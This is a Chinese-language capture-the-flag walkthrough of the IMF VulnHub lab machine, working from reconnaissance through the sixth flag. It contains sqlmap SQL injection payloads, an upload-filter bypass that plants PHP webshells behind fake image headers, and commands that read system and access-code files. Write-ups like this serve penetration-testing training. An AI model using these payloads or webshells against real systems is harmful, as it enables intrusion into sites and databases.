# IMF VulnHub Walkthrough
## download
https://www.vulnhub.com/entry/imf-1,162/
## 服务器扫描

使用nmap扫描可发现该主机只开放了80端口

```
root@kali:~# nmap -T4 -A -v 192.168.56.101

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-28 07:26 EDT
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 07:26
Completed NSE at 07:26, 0.00s elapsed
Initiating NSE at 07:26
Completed NSE at 07:26, 0.00s elapsed
Initiating ARP Ping Scan at 07:26
Scanning 192.168.56.101 [1 port]
Completed ARP Ping Scan at 07:26, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:26
Completed Parallel DNS resolution of 1 host. at 07:26, 16.56s elapsed
Initiating SYN Stealth Scan at 07:26
Scanning 192.168.56.101 [1000 ports]
Discovered open port 80/tcp on 192.168.56.101
Completed SYN Stealth Scan at 07:26, 5.42s elapsed (1000 total ports)
Initiating Service scan at 07:26
Scanning 1 service on 192.168.56.101
Completed Service scan at 07:27, 6.08s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 192.168.56.101
NSE: Script scanning 192.168.56.101.
Initiating NSE at 07:27
Completed NSE at 07:27, 0.20s elapsed
Initiating NSE at 07:27
Completed NSE at 07:27, 0.00s elapsed
Nmap scan report for 192.168.56.101
Host is up (0.00055s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
MAC Address: 08:00:27:A1:F5:E7 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.8, Linux 3.16 - 4.6, Linux 3.2 - 4.8, Linux 4.4
Uptime guess: 0.298 days (since Wed Mar 28 00:17:32 2018)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.55 ms 192.168.56.101

NSE: Script Post-scanning.
Initiating NSE at 07:27
Completed NSE at 07:27, 0.00s elapsed
Initiating NSE at 07:27
Completed NSE at 07:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
           Raw packets sent: 2043 (92.396KB) | Rcvd: 13 (652B)
```

访问http://192.168.56.101可以看到界面




## Flag1

在contact页面右键源代码可以看到flag




```
root@kali:~# echo 'YWxsdGhlZmlsZXM='| base64 -d
allthefiles
```

allthefiles提示我们第二个flag在其他文件中或者与文件相关

## Flag2

查看文件发现有三个js文件名拼在一起很像base64字符串，试一试



```
root@kali:~# echo 'ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==' | base64 -d
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
root@kali:~# echo 'aW1mYWRtaW5pc3RyYXRvcg=='| base64 -d
imfadministrator
```

果然这是一个flag，提示给出了下一个flag在/imfadministrator页面中

## Flag3

访问http://192.168.56.101/imfadministrator 页面



可以看到这是一个登陆页面，右键源代码看一下



由注释可知password被硬编码了，所以不考虑SQL注入，可以考虑暴力破解或者类型绕过，那么username怎么找？也是类型绕过吗？



根据反馈信息判断username不是类型漏洞，可能需要寻找确定的用户名，在contact页面发现了三个人名rmichaels,akeith,estone,试一下！



发现只有rmichaels可以，得到flag



```
root@kali:~# echo 'Y29udGludWVUT2Ntcw=='|base64 -d
continueTOcms
```

根据提示下一个flag在cms

后来分析源代码可知校验漏洞原因




## Flag4

访问http://http://192.168.56.101/imfadministrator/cms.php?pagename=home 



观察后发现三个连接都没有什么卵用，但是URL有个pagename参数，单引号测一下确定是sql注入，直接sqlmap跑起来



```
root@kali:~# sqlmap --threads 10 --url http://192.168.56.101/imfadministrator/cms.php?pagename=home --cookie "PHPSESSID=ed6vbms6lr1vftbfkcs0cvfde4" --current-db 
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.1.12#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:43:58

[11:43:59] [INFO] resuming back-end DBMS 'mysql' 
[11:43:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: pagename (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: pagename=home' AND 9825=9825 AND 'epzn'='epzn

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: pagename=home' AND (SELECT 2388 FROM(SELECT COUNT(*),CONCAT(0x716b766b71,(SELECT (ELT(2388=2388,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bVQS'='bVQS

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: pagename=home' AND SLEEP(5) AND 'iCED'='iCED

    Type: UNION query
    Title: MySQL UNION query (NULL) - 1 column
    Payload: pagename=-9651' UNION ALL SELECT CONCAT(0x716b766b71,0x45546b4461767770644f52464a6d5754514d7762567263444971766365514e53524964676d6f5671,0x717a767871)#
---
[11:43:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[11:43:59] [INFO] fetching current database
current database:    'admin'
[11:43:59] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'

[*] shutting down at 11:43:59
```

```
root@kali:~# sqlmap --threads 10 --url http://192.168.56.101/imfadministrator/cms.php?pagename=home --cookie "PHPSESSID=ed6vbms6lr1vftbfkcs0cvfde4" -D admin --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:45:42

[11:45:43] [INFO] resuming back-end DBMS 'mysql' 
[11:45:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: pagename (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: pagename=home' AND 9825=9825 AND 'epzn'='epzn

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: pagename=home' AND (SELECT 2388 FROM(SELECT COUNT(*),CONCAT(0x716b766b71,(SELECT (ELT(2388=2388,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bVQS'='bVQS

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: pagename=home' AND SLEEP(5) AND 'iCED'='iCED

    Type: UNION query
    Title: MySQL UNION query (NULL) - 1 column
    Payload: pagename=-9651' UNION ALL SELECT CONCAT(0x716b766b71,0x45546b4461767770644f52464a6d5754514d7762567263444971766365514e53524964676d6f5671,0x717a767871)#
---
[11:45:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[11:45:43] [INFO] fetching tables for database: 'admin'
[11:45:43] [INFO] the SQL query used returns 1 entries
Database: admin
[1 table]
+-------+
| pages |
+-------+

[11:45:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'

[*] shutting down at 11:45:43
```

```
root@kali:~# sqlmap --threads 10 --url http://192.168.56.101/imfadministrator/cms.php?pagename=home --cookie "PHPSESSID=ed6vbms6lr1vftbfkcs0cvfde4" -D admin -T pages --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.1.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:46:29

[11:46:29] [INFO] resuming back-end DBMS 'mysql' 
[11:46:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: pagename (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: pagename=home' AND 9825=9825 AND 'epzn'='epzn

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: pagename=home' AND (SELECT 2388 FROM(SELECT COUNT(*),CONCAT(0x716b766b71,(SELECT (ELT(2388=2388,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bVQS'='bVQS

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: pagename=home' AND SLEEP(5) AND 'iCED'='iCED

    Type: UNION query
    Title: MySQL UNION query (NULL) - 1 column
    Payload: pagename=-9651' UNION ALL SELECT CONCAT(0x716b766b71,0x45546b4461767770644f52464a6d5754514d7762567263444971766365514e53524964676d6f5671,0x717a767871)#
---
[11:46:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[11:46:29] [INFO] fetching columns for table 'pages' in database 'admin'
[11:46:29] [INFO] the SQL query used returns 3 entries
[11:46:29] [INFO] starting 3 threads
[11:46:29] [INFO] resumed: "id","int(11)"
[11:46:29] [INFO] resumed: "pagedata","text"
[11:46:29] [INFO] resumed: "pagename","varchar(255)"
[11:46:29] [INFO] fetching entries for table 'pages' in database 'admin'       
[11:46:29] [INFO] the SQL query used returns 4 entries
[11:46:29] [INFO] starting 4 threads
[11:46:29] [INFO] resumed: "1","Under Construction.","upload"
[11:46:29] [INFO] resumed: "2","Welcome to the IMF Administration.","home"
[11:46:29] [INFO] resumed: "3","Training classrooms available. <br />Disavowed List</h1><br /> Contact us for training.                                                               |
| 4  | disavowlist          | <h1>Disavowed List</h1><br /><ul><li>*********</li><li>****** ******</li><li>*******</li><li>**** ********</li></ul><br />-Secretary |
+----+----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[11:46:29] [INFO] table 'admin.pages' dumped to CSV file '/root/.sqlmap/output/192.168.56.101/dump/admin/pages.csv'
[11:46:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'

[*] shutting down at 11:46:29
```

发现多了个tutorials-incomplete,访问一下


扫描二维码得到flag

flag4{dXBsb2Fkcjk0Mi5waHA=}

```
root@kali:~# echo 'dXBsb2Fkcjk0Mi5waHA='|base64 -d
uploadr942.php
```

提示下一个flag在uploadr942.php中

## Flag5

访问http://192.168.56.101/imfadministrator/uploadr942.php 



看来是考察文件上传，经测试发现.php后缀无法绕过检测，但是.jpg，.png，.gif的可以，且它会检验文件头

```
root@kali:~/Desktop# echo 'FFD8FFEo' | xxd -r -p > test.jpg
root@kali:~/Desktop# echo '<?php eval($_POST); ?>' >>test.jpg
```




发现有WAF，检测了eval函数，那么换一下

```
root@kali:~/Desktop# echo 'FFD8FFEo' | xxd -r -p > test.jpg
root@kali:~/Desktop# echo '<?php echo `$_GET['c']`; ?>' >> test.jpg
```



访问http://192.168.56.101/imfadministrator/uploads/3ba4d4be98d0.jpg



发现jpg不能解析php代码，换其他的发现只有gif可以



使用cat命令得到flag


```
root@kali:~/Desktop# echo 'YWdlbnRzZXJ2aWNlcw=='|base64 -d
agentservices
```

得到下一个提示flag在agentservices中

这里通过`echo '<?php eval($_POST['c']); ?>' > webshell.php`构造一个后门，使用中国菜刀连接

可以知道刚才为什么只有gif可以执行php代码




## Flag6

```
[/var/www/html/imfadministrator/uploads/]$ cat /etc/services | grep agent
cmip-agent	164/tcp
cmip-agent	164/udp
zabbix-agent	10050/tcp			# Zabbix Agent
zabbix-agent	10050/udp
agent		7788/tcp			# Agent service


[/var/www/html/imfadministrator/uploads/]$ whereis agent
agent: /usr/local/bin/agent


[/var/www/html/imfadministrator/uploads/]$ ls -al /usr/local/bin/
total 24
drwxr-xr-x  2 root root  4096 Oct 16  2016 .
drwxr-xr-x 10 root root  4096 Sep 22  2016 ..
-rw-r--r--  1 root root    19 Oct 16  2016 access_codes
-rwxr-xr-x  1 root root 11896 Oct 12  2016 agent


[/var/www/html/imfadministrator/uploads/]$ cat /usr/local/bin/access_codes
SYN 7482,8279,9467
```

或者

```
[/var/www/html/imfadministrator/uploads/]$ ls /etc/xinetd.d
agent
chargen
daytime
discard
echo
time


[/var/www/html/imfadministrator/uploads/]$ cat /etc/xinetd.d/agent
# default: on
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
[/var/www/html/imfadministrator/uploads/]$ ls -al /usr/local/bin/
total 24
drwxr-xr-x  2 root root  4096 Oct 16  2016 .
drwxr-xr-x 10 root root  4096 Sep 22  2016 ..
-rw-r--r--  1 root root    19 Oct 16  2016 access_codes
-rwxr-xr-x  1 root root 11896 Oct 12  2016 agent


[/var/www/html/imfadministrator/uploads/]$ cat /usr/local/bin/access_codes
SYN 7482,8279,9467
```

根据SYN 7482,8279,9467可知应该是使用了knockd隐藏了ssh端口

```
[/var/www/html/imfadministrator/uploads/]$ netstat -an
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:7788            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 192.168.56.101:7788     192.168.56.102:48198    ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 192.168.56.101:80       192.168.56.1:25718      ESTABLISHED
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  2      [ ACC ]     STREAM     LISTENING     9846     /run/lvm/lvmpolld.socket
unix  10     [ ]         DGRAM                    9847     /run/systemd/journal/dev-log
unix  2      [ ACC ]     STREAM     LISTENING     9857     /run/systemd/fsck.progress
unix  2      [ ACC ]     STREAM     LISTENING     9858     /run/systemd/journal/stdout
unix  6      [ ]         DGRAM                    9859     /run/systemd/journal/socket
unix  2      [ ACC ]     SEQPACKET  LISTENING     9845     /run/udev/control
unix  2      [ ]         DGRAM                    10200    /run/systemd/journal/syslog
unix  2      [ ACC ]     STREAM     LISTENING     12786    /var/run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     12787    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     12788    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     12789    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     12809    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     12806    /var/lib/lxd/unix.socket
unix  2      [ ACC ]     STREAM     LISTENING     16511    /var/run/mysqld/mysqld.sock
unix  2      [ ACC ]     STREAM     LISTENING     14866    @ISCSIADM_ABSTRACT_NAMESPACE
unix  3      [ ]         DGRAM                    9839     /run/systemd/notify
unix  2      [ ACC ]     STREAM     LISTENING     9840     /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     9844     /run/lvm/lvmetad.socket
unix  2      [ ]         DGRAM                    16240    
unix  3      [ ]         STREAM     CONNECTED     13424    
unix  3      [ ]         STREAM     CONNECTED     13258    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13118    
unix  3      [ ]         STREAM     CONNECTED     13500    
unix  3      [ ]         STREAM     CONNECTED     10622    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13863    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     14172    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     12080    
unix  2      [ ]         DGRAM                    10861    
unix  2      [ ]         DGRAM                    12173    
unix  2      [ ]         DGRAM                    10623    
unix  3      [ ]         STREAM     CONNECTED     13502    /var/run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     13504    /var/run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     12088    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13494    
unix  3      [ ]         STREAM     CONNECTED     13119    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13425    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13257    
unix  3      [ ]         STREAM     CONNECTED     13862    
unix  2      [ ]         DGRAM                    13497    
unix  2      [ ]         DGRAM                    14858    
unix  2      [ ]         DGRAM                    13054    
unix  2      [ ]         DGRAM                    14870    
unix  3      [ ]         STREAM     CONNECTED     15269    
unix  2      [ ]         DGRAM                    16217    
unix  3      [ ]         STREAM     CONNECTED     13501    
unix  3      [ ]         DGRAM                    12177    
